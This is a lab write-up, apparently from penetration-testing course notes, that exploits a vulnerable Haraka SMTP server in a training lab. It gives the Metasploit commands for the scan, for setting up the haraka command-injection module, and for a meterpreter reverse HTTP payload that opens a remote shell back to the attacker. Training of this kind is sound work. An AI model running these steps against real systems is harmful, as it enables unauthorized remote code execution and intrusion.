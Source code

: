 # 🔬SMTP - MSF Exploit

## Lab 1

>  🔬 [Vulnerable SMTP Server](https://www.attackdefense.com/challengedetails?cid=715)
>
>  - Target IP: `192.109.36.3`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [Haraka < 2.8.9 - Remote Command Execution](https://www.exploit-db.com/exploits/41162)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.109.36.3
setg RHOST 192.109.36.3
workspace -a SMTP_haraka
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV -O 192.109.36.3
```

![db_nmap -sV -O 192.109.36.3](assets/image-20230416143927400.png)

```bash
search libssh_auth_bypass
use exploit/linux/smtp/haraka
info
# Description:
#   The Haraka SMTP server comes with a plugin for processing 
#   attachments. Versions before 2.8.9 can be vulnerable to command 
#   injection
options
set SRVPORT 9898
set email_to root@attackdefense.test
set payload linux/x64/meterpreter_reverse_http
set LHOST eth1
set LPORT 8080
run

# This is a NON-staged payload
```

![Metasploit - exploit/linux/smtp/haraka](assets/image-20230416144316805.png)

------

